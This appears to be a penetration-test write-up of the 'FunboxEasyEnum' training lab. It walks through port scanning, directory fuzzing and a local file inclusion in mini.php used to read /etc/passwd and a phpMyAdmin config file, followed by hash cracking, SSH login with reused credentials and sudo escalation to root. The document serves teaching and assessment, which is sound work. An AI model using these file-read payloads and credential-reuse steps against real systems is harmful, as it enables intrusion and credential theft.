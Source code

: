 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# FunboxEasyEnum

Table of Contents:

1. [#summary](./#summary "mention")
2. [#target-details](./#target-details "mention")
3. [#summary-of-findings](./#summary-of-findings "mention")
4. [#enumeration](./#enumeration "mention")
5. [#foothold](./#foothold "mention")
6. [#privilege-escalation](./#privilege-escalation "mention")

***

#### Summary

During the assessment of the host `192.168.106.132`, a critical weakness was identified that allowed full system compromise. Initial discovery revealed a vulnerability in a web component (`mini.php`) susceptible to **Local File Inclusion (LFI)**. Exploitation of this vulnerability allowed access to sensitive files such as `/etc/passwd` , and the phpMyAdmin configuration file.

Credentials retrieved from these files were reused across system accounts. Using the recovered passwords, SSH access as the user `karla` was gained, confirming the presence of the local flag. Privilege escalation was straightforward, as `karla` had unrestricted sudo rights, allowing immediate root-level access and capture of the proof flag.

**Impact:** A web-only attacker could escalate to full administrative control due to misconfigured LFI, credential reuse, and improper privilege management.

***

#### Target Details

* IP: `192.168.106.132`
* OS: Linux
* Services:
  * `22/tcp` - OpenSSH 7.6p1 (Ubuntu)
  * `80/tcp` - Apache httpd 2.4.29 (Ubuntu)

***

#### Summary of Findings

**Finding 1 - Local File Inclusion in** `mini.php`

**Severity**: Critical

**Description**: `mini.php` exposes file-read functionality that accepts user-controlled `filesrc`/`path` parameters. This allowed reading `/etc/passwd` and other sensitive files.

**Impact**: Arbitrary file-read leads to disclosure of credentials and configuration files. May lead to full system compromise.

**Recommendation**: Remove the script from public access or sanitize/whitelist file paths and require authentication.

**Finding 2 - phpMyAdmin config disclosure (plaintext credentials)**

**Severity**: High

**Description**: `/etc/phpmyadmin/config-db.php` is readable via LFI and contains DB username and password (`phpmyadmin:tgbzhnujm!`).

**Impact**: Credentials may be reused across services and used for lateral movement.

**Recommendation**: Rotate credentials, restrict config file permissions, and restrict phpMyAdmin access to trusted networks.

**Finding 3 - Credential reuse and weak password practices**

**Severity**: High

**Description**: The DB password was accepted for the `karla` account, the `orcale` account used a crackable MD5 password (`hiphop`).

**Impact**: Credential reuse reduces attack complexity and increases the likelihood of success for an attacker.

**Recommendation**: Enforce strong, unique passwords and consider central password management or MFA.

**Finding 4 - Excessive sudo privilege for** `karla`

**Severity**: Critical

**Description**: `karla` belongs to the sudo group and can run privileged commands without adequate restrictions. This allowed immediate escalation to the root (`sudo su`).

**Impact**: Any compromise  `karla` yields a full system compromise.

**Recommendation**: Restrict sudo privileges, adopt role-based least privilege, and avoid sudo group membership for non-admin accounts.

***

#### Enumeration

**Nmap Scan**

```
nmap -p- --open -sCV -vv fee.offsec -oN nmap_fee.txt
```

**Result**

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3a6aFbaxLEn4AMDXmMVZdNfaQuJQ/AcPHffagHb77o1FmSe+6tlCRHMil9l4qJILffRQHkdbQJtrlBk52V35SHfPp8x89B+Pfv7slkKxXE7fkZBIJuUjHF+YAoSakOtY72d7o6Bet2AwCijSBzZ1bkVC4i/L9euG2Oul5oA2iFlnzwYjrhki6MFNFJvvyoOqcJr1zS+w4W0NO1RexielQsxeUG3khrfVYts5kWFQPr39tk52zRZ/gpAKjR00XN4N5mi/mBjvvgnlVX4DNeyxh5r+E5sdLGzJ0Vk8JzjDW7eK70kv2KmVCFSJNceUjfaIV+K4z9wFoy6qZte7MxhaV
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoJi5En616tTVEM4UoE0AVaXFn6+Rhike29q/pKZh5nIPQfNr9jqz2II9iZ5NZCPwsjp3QrsmTdzGwqUbjMe0c=
|   256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO+CVl8CiYP8L+ni0CvmpS7ywOiJU62E3O6L8G2n/Yov
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Fuzz**

Command:

```
gobuster dir -w ~/Documents/dump_words.txt -u http://fee.offsec -x php
```

Discovered Directories / Files:

```
/javascript           (Status: 301) [Size: 313] [--> http://fee.offsec/javascript/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://fee.offsec/phpmyadmin/]
/mini.php             (Status: 200) [Size: 3828]
/server-status        (Status: 403) [Size: 275]
```

***

Notable finds:

* `/mini.php`  - Vulnerable to LFI
* `/phpmyadmin`

Url: `http://fee.offsec/mini.php?filesrc=/etc/passwd&path=/etc/`

Result: Contents of  `/etc/passwd` were returned.&#x20;

<figure><img src=".gitbook/assets/FEE reveal passwd.png" alt=""><figcaption></figcaption></figure>

```
root:x:0:0:root:/root:/bin/bash
...
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
```

Url: `http://fee.offsec/mini.php?filesrc=/etc/phpmyadmin/config-db.php&path=/etc/phpmyadmin`

Result: Contents of  `/etc/phpmyadmin/config-db.php` were returned.&#x20;

<figure><img src=".gitbook/assets/FEE reveal config.png" alt=""><figcaption></figcaption></figure>

```
<?php
...
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
```

Risk: LFI allowed arbitrary local file read (credential disclosure, config leakage).

**Hash Cracking** - `orcale`

Save `orcale` MD5 hash to file named as `hash`.

```
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0
```

Command&#x20;

```
hashcat -m 500 hash /usr/share/wordlists/rockyou.txt
```

Result:

<pre><code><strong>oracle:hiphop
</strong></code></pre>

**Credential usage and SSH access**

Credential discovered:

* `phpmyadmin` (dbuser) password: `tgbzhnujm!`&#x20;
* `orcale` password: `hiphop`

***

#### Foothold

Attempt SSH logins for enumerated users using `tgbzhnujm!`. Successful login:

```
ssh karla@fee.offsec
```

***

#### Privilege Escalation

Enumerate privileges

Command:

```
sudo -l
```

<figure><img src=".gitbook/assets/FEE SSH karla and enumerate privileges.png" alt=""><figcaption></figcaption></figure>

Observation: `karla` is a member of the `sudo` group.

Privilege escalation performed using:

```
sudo su
```

Successful privilege escalated to `root`.
